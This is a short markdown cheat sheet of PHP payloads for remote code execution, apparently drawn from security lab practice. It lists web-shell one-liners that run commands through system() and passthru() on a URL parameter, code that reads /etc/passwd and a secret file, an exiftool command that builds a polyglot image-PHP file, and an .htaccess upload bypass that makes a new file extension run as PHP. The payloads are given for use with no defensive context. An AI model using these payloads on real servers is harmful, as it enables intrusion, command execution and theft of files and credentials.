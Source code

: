 # PHP Payloads for RCE

## Normal Payloads
```php
<?php echo file_get_contents('/etc/passwd'); ?> >> To read files
<?php system($_GET['cmd']); ?> >> For system command
<?php passthru($_GET['cyborg71']); ?> >> For system command*
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```

## Apache Bypass
```
Before:
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
After:
Content-Type: application/x-httpd-php
```

